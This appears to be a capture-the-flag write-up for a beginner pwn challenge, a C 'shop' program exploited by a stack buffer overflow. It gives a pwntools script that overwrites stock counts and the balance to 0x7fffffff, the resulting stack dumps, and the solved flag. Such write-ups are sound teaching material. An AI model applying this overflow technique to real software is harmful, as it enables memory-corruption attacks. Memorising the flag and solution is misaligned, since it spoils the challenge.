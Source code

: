# Dank Meower Beta

category: pwn

> I want to make a discord bot but I don't know how to use discord.py, so I made a prototype in C.

> Pst! I heard you were looking to get some flags from that flag shop over there, but they were out of stock. Luckily, I think I can help you with that... I've attached the source code of the shop [here](https://gist.github.com/azazazo/de242e67acada5e16be7c3b0745b5525), and you can download the binary [here](https://github.com/azazazo/blahajctf-files/raw/main/dank%20meower%20beta/guide). Contact me at `nc 188.166.197.31 30003` if you're still keen...

This is a simple buffer overflow challenge, with a helpful stack diagram even showing you the layout of the stack itself. The challenge already does a helpful job of explaining the basics of a buffer overflow. However, it seems that many people were stuck on how to give themselves the $2,147,483,647 (`0x7fffffff`) required to get the flag, since that requires one to input `0x7fffffff` as little-endian.

Anyways we can automate this with a pwntools script:
```py
from pwn import *
# target = process("./guide") # use this for local testing
target = remote("104.248.97.96", 30001)
for i in range(12):
    target.sendline(b'') # press enter through the buffer overflow guide

target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647)) # payload
target.sendline(b'2') # shop
target.recvline()
target.sendline(b'3') # buy flag
target.interactive()
```

Now let's look at this line:
```
target.sendline(p64(0x1) + p32(0x1) + p32(0x1) + p32(0x1) + p32(2147483647))
```

```
lower >---------------------------------------------stack direction----------------------------------------------> higher
  choice                                  in_stock                                                    balance
┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐
│ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │
└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘


Current balance: $0
1) Beg for money
2) Visit shop
3) Exit
lower >---------------------------------------------stack direction----------------------------------------------> higher
  choice                                  in_stock                                                    balance
┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐
│ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ ff │ ff │ ff │ 7f │
└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘


1) Beg for money
2) Visit shop
3) Exit
```
We have overwriten `choice` with the value of 1, overwritten the stock counts of all three items with 1, and overwritten the value of balance with `0x7fffffff`

We can then proceed to buy the flag:

```
lower >---------------------------------------------stack direction----------------------------------------------> higher
  choice                                  in_stock                                                    balance
┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐
│ 32 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ ff │ ff │ ff │ 7f │
└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘
   2


Welcome to the shop! What would you like to buy?
1) Small blahaj (in stock) - $10
2) Big blahaj (in stock) - $30
3) Flag (in stock) - $2,147,483,647
$
lower >---------------------------------------------stack direction----------------------------------------------> higher
  choice                                  in_stock                                                    balance
┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐
│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ ff │ ff │ ff │ 7f │
└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘
   3
lower >---------------------------------------------stack direction----------------------------------------------> higher
  choice                                  in_stock                                                    balance
┌────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┬────┐
│ 33 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ 01 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │ 00 │
└────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┴────┘
   3

Congratulations! You now have your very own flag!
Here's your flag: blahaj{buFf3r_50Lu710n5_R35157_cH4n935_1n_pH}

Current balance: $0
1) Beg for money
2) Visit shop
3) Exit
$
```